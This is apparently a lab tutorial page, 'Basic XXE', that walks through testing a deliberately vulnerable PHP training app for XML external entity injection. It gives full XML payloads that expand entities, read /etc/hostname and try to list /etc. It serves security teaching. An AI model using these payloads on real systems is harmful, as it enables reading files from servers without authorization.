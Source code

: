 ```yaml
---
title: "Basic XXE"
weight: 1
---
```


{{% notice note %}}
Make sure you are on the PHP site (`/php/`) for these exercises.
{{% /notice %}}

In this app, we can see that what is submitted does not have a content-type of XML, but the data does look formatted in XML.

![](/static/img/php_xml.png)

But, it looks like the value of the Email field is reflected back to the user as shown in this image:

![](/static/img/php_xml_reflected.png)

As we did in the Java app, lets test for some basic XXE. We will define two General Entities and place them both in the email field to see if they are interpolated and reflected back to us.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY foo "Does this">
  <!ENTITY bar "expand?">
]>

<root>
  <name>XXE</name>
  <tel>(555) 555-1734</tel>
  <email>&foo; &bar;</email>
  <password>pass</password>
</root>
```

Boom. It looks like we can at least include local entities

![](/static/img/php_xxe_expand.png)

Now we are going to see if we can include a local file as the email value:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>

<root>
  <name>XXE</name>
  <tel>(555) 555-1734</tel>
  <email>&xxe;</email>
  <password>pass</password>
</root>
```

No problems there.

![](/static/img/php_host_name.png)

What about listing the contents of a directory?

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc">
]>

<root>
  <name>XXE</name>
  <tel>(555) 555-1734</tel>
  <email>&xxe;</email>
  <password>pass</password>
</root>
```

No, that did not work.

![](/static/img/php_directory_listing.png)

So, we can do most of the same things that we did in Java, with the exception that we are no longer able to list the contents of a directory.

